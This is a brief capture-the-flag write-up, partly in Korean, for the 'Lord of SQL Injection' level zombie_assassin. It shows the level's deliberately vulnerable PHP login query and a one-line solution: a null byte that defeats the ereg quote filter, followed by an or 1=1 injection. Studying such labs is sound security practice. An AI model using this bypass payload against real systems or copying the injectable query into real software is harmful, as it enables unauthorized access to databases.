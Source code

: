 # Lord-Of-SQL-Injection 16 zombie_assassin

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
    if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(@ereg("'",$_GET[id])) exit("HeHe");
    if(@ereg("'",$_GET[pw])) exit("HeHe");
    $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("zombie_assassin");
    highlight_file(__FILE__);
?>
```

## How to solve

`eregi` 함수는 `\x00(NULL)` 을 만나면 정규식 매칭을 종료한다.

즉 `?pw=%00' or 1=1 -- -` 와 같이 쓰면 된다.